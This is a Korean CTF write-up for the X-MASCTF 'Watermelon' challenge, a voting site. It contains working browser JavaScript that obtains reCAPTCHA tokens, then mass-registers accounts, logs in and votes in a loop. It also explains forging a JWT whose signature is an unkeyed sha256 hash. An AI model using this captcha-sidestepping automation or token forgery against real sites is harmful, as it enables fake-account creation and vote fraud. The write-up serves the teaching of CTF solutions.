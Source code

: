 ```yaml
---
title: X-MASCTF - Watermelon
header:
  teaser: ""
categories:
  - CTF
  - X-MASCTF
tags:
  - X-MASCTF
  - CTF
toc: true
---
```



# Watermelon
## Overview  
음악을 업로드하는 기능과 투표를 할 수 있는 기능이 있다.  
투표는 계정당 한 번만 가능하다. 회원가입과 로그인에는 캡챠가 작동하고 있다.  
JWT기반 인증을 사용하고 있다.  
## Solve
회원가입하여 로그인하여 JWT 토큰을 디코딩하여 아래의 값을 얻었다.

```  
{"alg":"sha256","typ":"JWT"}.{"user_no":7374,"id":"workerholic","nickname":"workerholic","iat":1577621349}.32f6c091cf3e50ce7ac64fd042ef309e438a58454e30e61bf8ee7dd1dbd24390
```
이를통해 user_no를 조작하여 투표를 계속할 수 있게 해볼려고 시도해봤으나 jwt의 signature 부분이 계속 틀려서 포기했다.  
다음 생각한 방법은 회원가입하고 로그인하고 투표하는 동작을 자동으로 할 수 있게 프로그램을 만들어서 투표 수를 높이는거였다.  
그런데 회원가입과 로그인 기능에는 reCaptcha가 작동하고 있었다. 
```
<script src="https://www.google.com/recaptcha/api.js?render=6LeKDskUAAAAAAh1LrqJ8isTG7rzGFpgNGas4x7z"></script>
<script>
grecaptcha.ready(function() {
    grecaptcha.execute('6LeKDskUAAAAAAh1LrqJ8isTG7rzGFpgNGas4x7z', {action: 'homepage'}).then(function(token) {
        document.getElementById('g-recaptcha-response').value = token;
    });
});
</script>
```  
스크립트를 통해 받아온 token 값을 g-recaptcha-response에 담아 POST로 같이 전송하는 방식이다.  
이 token값은 요청마다 바뀌었다.  
브라우저에서 자바스크립트를 실행해서 값을 받아오기 때문에
python 코드 상에서 해당 token 값을 받아 올 수는 없었다.   
파이선으로 해당 코드를 대체하여 token 값을 받아올 방법을 못 찾고  
그냥 해당 api가 불러와진 회원가입 페이지에서 개발자 도구를 통해 자바스크립트로 코드를 작성하여 실행시켯다.  
```
function register(count){
    grecaptcha.execute('6LeKDskUAAAAAAh1LrqJ8isTG7rzGFpgNGas4x7z',{action: 'homepage'}).then(function(token) {
        var id = 'worker'+count
        var param = "id="+id+"&password="+id+"&nickname="+id+"&g-recaptcha-response="+token;
        fetch("http://ch4n3.me:8080/xmas/?p=signup.ok",{
            method : 'POST',
            headers: {'Content-Type':'application/x-www-form-urlencoded'},
            body : param
        }).then(register(count+1));
    });
}

function login(count){
    grecaptcha.execute('6LeKDskUAAAAAAh1LrqJ8isTG7rzGFpgNGas4x7z',{action: 'homepage'}).then(function(token) {
        var id = 'worker'+count
        var param = "id="+id+"&password="+id+"&g-recaptcha-response="+token;
        fetch("http://ch4n3.me:8080/xmas/?p=signin.ok",{
            method : 'POST',
            headers: {'Content-Type':'application/x-www-form-urlencoded'},
            body : param
        }).then(login(count+1)).then(vote());
    });
}

function vote(){
    var xhttp = new XMLHttpRequest();
    var music_no = 555;
    var param = "music_no="+music_no;
    xhttp.open("POST", "http://ch4n3.me:8080/xmas/vote.php");
    xhttp.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhttp.send(param);
    var work = xhttp.responseText;
    console.log(work);
}
```
처음에 register()와 login()에서 fetch()말고 xhttp.send()로 요청을 계속 보내니 중간에 잘보내다가 요청이 pending 상태에 걸려서 에러가 발생했다. 너무 화가났다. 쨋든 이렇게 동작하게 코드를 만들어서
```
register(1122);
login(1122);
```
동작시키면 아이디를 만들고 그 아이디로 로그인해서 투표하는걸 반복하게된다. 그래서 투표 수를 계속 높여나가다 투표받은 음악을 올린 계정으로 로그인하니 플래그가 뙇~ 멍청하게 자알~ 풀었다.  
## Real Solve
해당 페이지의 robots.txt에 코드가 올라와있는 github 주소가 있었다.
jwt 토큰을 생성하는 페이지를 보니 header 부분과 payload 부분을 sha256으로 해쉬한게 signature였다......  
그리하여 user_no를 변경하고 이를 알맞게 해쉬하여 signature를 붙여서 인코딩해주면 jwt가 정상적으로 인식되어 투표할 수 있었다.  투표는 1226표 이상 받으면 flag가 출력되게 되어있었다.

